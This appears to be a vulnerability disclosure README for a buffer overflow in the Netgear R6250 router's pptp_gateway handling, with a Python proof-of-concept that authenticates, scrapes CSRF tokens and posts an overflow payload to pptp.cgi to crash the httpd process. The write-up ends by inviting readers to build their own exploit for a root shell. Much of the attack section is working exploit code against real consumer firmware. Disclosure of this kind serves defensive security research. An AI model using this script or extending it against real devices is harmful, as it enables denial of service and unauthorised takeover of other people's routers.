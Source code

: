 # Netgear R6250 Buffer Overflow Vulnerability
There is a buffer overflow vulnerability in the Netgear R6250 router with Firmware Version 1.0.4.48.  

## Affected Product & Versions
Netgear R6250 V1.0.4.48  
(https://www.netgear.com/support/download/?model=R6250) Latest


## The Vulnerability
First, set the nvram value of pptp_gateway in the httpd binary at function sub_20640() via pptp.cgi
![Alt text](1.png)  

The function at address 17494 in the binary file 'acos_service' retrives the value of 'pptp_gateway' from nvram.Finally,the value of 'pprp_gateway' from nvram is concatenated to the sprintf function, which leads to a buffer overflow vulnerability.
![Alt text](2.png)
![Alt text](3.png)

## Recurring vulnerabilities and POC
First, boot the firmware via FirmAE:  
![Alt text](4.png)
Then, log in to 192.168.1.1 and configure the username and password:
![Alt text](5.png)
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of httpd process.
<pre>
import requests
import base64
import re

target = '192.168.1.1'
username = 'admin'
passwd = 'Qwer1234'
username_passwd = username + ":" + passwd
auth = base64.b64encode(username_passwd.encode('utf-8')).decode("utf-8")
print(auth)

#request 1 : get XSRF_TOKEN
burp0_url = "http://" + target + ":80/BAS_pptp.htm"
burp0_cookies = {"XSRF_TOKEN": "2267229739"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic 123123", "Connection": "close", "Referer": "http://" + target + "/IPV6_disable.htm", "Upgrade-Insecure-Requests": "1"}
response1 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

if 'Set-Cookie' in response1.headers:
    set_cookie = response1.headers['Set-Cookie']
    print(f'The Set-Cookie value is: {set_cookie}')
else:
    print('No Set-Cookie field in the response header')

pattern = r'(?<=\=)([^;]*)'
XSRF_TOKEN = re.findall(pattern, set_cookie)[0]
print(XSRF_TOKEN)

#request 2 : get csrf_id
burp0_cookies = {"XSRF_TOKEN": XSRF_TOKEN}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic " + auth, "Connection": "close", "Referer": "http://" + target + "/IPV6_disable.htm", "Upgrade-Insecure-Requests": "1"}
response2 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
pattern = r'cgi\?id=([\w\d]+)'
csrf_id = re.search(pattern, response2.text).group(1)
print("csrf_id is :" + csrf_id)

#request 3 : send payload
burp0_url = "http://" + target + ":80/pptp.cgi?id=" + csrf_id
burp0_data = {"apply": "Apply", "pptp_gateway": "a*100","wan_proto": "pptp","static_pptp_enable":"1"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "text/plain", "Origin": "http://" + target, "Authorization": "Basic " + auth, "Connection": "close", "Referer": "http://" + target + "/VLAN_IPTV.htm", "Upgrade-Insecure-Requests": "1"}

response3 = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

print('end!!!')
</pre>
![Alt text](6.png)
![Alt text](7.png)
![Alt text](8.png)
And you can write your own exp to get the root shell.